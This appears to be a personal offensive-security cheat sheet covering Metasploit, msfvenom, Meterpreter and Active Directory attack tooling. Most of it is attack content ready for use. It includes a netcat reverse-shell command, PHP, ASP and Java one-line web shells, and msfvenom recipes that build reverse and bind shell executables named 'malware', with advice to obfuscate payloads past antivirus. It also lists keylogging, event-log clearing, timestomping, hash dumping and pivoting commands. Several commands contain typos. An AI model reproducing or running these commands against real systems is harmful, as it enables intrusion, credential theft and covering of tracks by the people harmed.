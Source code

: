 SMB - 445
Kerberos - 88
RDP - 3389
LDAP - 389 636

Tools
Mimikatz - credential dumping
winPeas - local privesc
Bloodhound - collect AD data and find attack paths
PowerSploit - ps1 scripts


Exploit Databases
exploit-db.com
cve.mitre.org
securityfocus.com
Google Dork: "CVE-20XX-XXXX" site:github.com

Reverse Shell Generator
revshells.com

SearchSplot
       searchsploit <query>         
       searchspoit -m <exploit_id>
  
Fix Kali Issues
       github.com/Dewalt-arch/pimpmykali
  

Metasploit - exploitation framework. Has everything.
  msfconsole
  setg - set global variables
  unsetg
  search
  info
  use
  set RHOSTS <IP? - sets local variables
  unset
  sessions - lists active sessions
  session -i <session id> - connects to a session
  sessopn -u 1 - upgrade a session
  sessions -c cmd - execute comands in all sessions
  sessions -i 10-20 -c <session id> - execute commands in specific sessions
  
MetaSploit listener
  use multi/handler    : metasploit listener
  set LHOST
  run   -starts the listener
  
Python Listeners
  Python 2 simple web server
    python -m SimpleHTTPServer 8080
  Python 3 simple web server
    python -m http.server 1338
  
TCPdump
  tcpdump -t eth0 icmp  :listen for pings on specific interface
  tcpdump -i any icmp    :listen for pings on every interface
  
  
Listeners
  nc -lvnp <port>  : listens for connections on a port
        -l  start listener
        -v  run verbose
        -n  no DNS resolution
        -p  port
  nc <ip> <port> -e /bin/sh

Webshells
github.com/BlackArch/webshells
<?php echo system($_GET['cmd']);?>   : PHP one liner web shell  
<% eval request("cmd")%>  : ASP one liner web shell
<% Runtime.getRuntime().exec(request.getParameter("cmd"));%>  : java web shell
                  
                  
       
msfvenom
       msfvenom -l payloads   : lists available paylaods
       msfvenom -l encoders   : lists available encodings
       msfvenom -p (payload) -e (encoder) -f (filer_format) LHOST=<LISTERNER_IP> LPORT=<LISTENER_PORT>
       
       payload obsufucation is important to bypass anti virus
       msfvenom -e x86/shikata_ga_nai...
       virustotal.com to check malware hash
       
       Basic Reverse Shells
       Windows
       msfvenom -p windows/x64/shell/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/shell_reverse_tcp  LHOST=<IP> LPORT=<IP> -f elf -o malware.elf
       
       Basic Bind Shells
       Windows
       msfvenom -p windows/x64/shell/bind_tcp LHOST=<IP> RPORT=<IP> -f exe -o malware.exe
       Linux
       msfvenom -p linux/x64/shell/bind_tcp  LHOST=<IP> RPORT=<IP> -f elf -o malware.elf
       
       msfvenom -p php/reverse_php LHOST=<IP> LPORT=1337 -o malware.php
       msfvenom -p windws/x64/shell_reverse_tcp LHOST=<IP> LPORT=1337 -f msi -o malware.msi
      
                  
Meterpreter
       post exploitation tool for MetaSploit
       cat
       edit
       cd/ls
       pwd
       upload
       download
       
       sysinfo
       getuid
       
       Windows specific
              getsystem
              hashdump
                  
       
Meterpreter Terrorism
      clearev  : clear event logs
      timestomp  : time stamp tampering
      migrate 1337  : move to a nw process
      keyscan_start  : start keylogger
      keyscan_stop
      keyscan_dump  : dump logged keys
      screenshot
                  

       
       
       
       
Networking
       
       Address Resolution Protocol
       arp -a
       ip neigh show
       
       route print  - routing table
       route
       
       
       Conenctions and ports
       netstat -ano
       ss - peanut
       
       msf6
       run post/multi/manage/autorout
       cmd=add subnet=192.168.16.0 netmask=/24
       run post/multi/manage/autoroute cmd=print
       
       Port Scan in metasploit
       user auxiliary/scanner/portscan/tcp
       set RHOTS 192.168.16.5
       set ports 1-1000
       run
       
       Reverse Port Forwarding on Meterpreter
       portfwd add -R -p 1234 -l 443 -L 192.168.3.28
                     -R is reverse
                     -p is remotre port
                     -l is local port
                     -L is Listening host
                     192.168.3.28:443 <-> 0.0.0.0:1234
       
       Getting a Shell on Internal host
       msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.16.3 LPORT=1234 -f exe -o malware.exe
              LHOST and LPORT need to be set to compromised internal host when doing lateral movement. Just think, it makes sense.
       
       
       Proxying n Metasploit
       configure SOCKS proxy server
       use auxiliary/server/socks_proxy
       set srvport 9050
       set version 4a
       exploit -j
       
              Proxy allows us to communicate with the internal host from our native terminal
       
       Proxychains
       used to run commands through a proxy
       $ proxychains evil-winrm -u Administrator -p 'Oasswird123!' -i 192.168.16.5   (assumes credentials already got)
       $ proxychains xfreerdp /u:Administrator /p:'Password123!' /v:192.168.16.5 /d.mayorsec
       
       
                  
                  
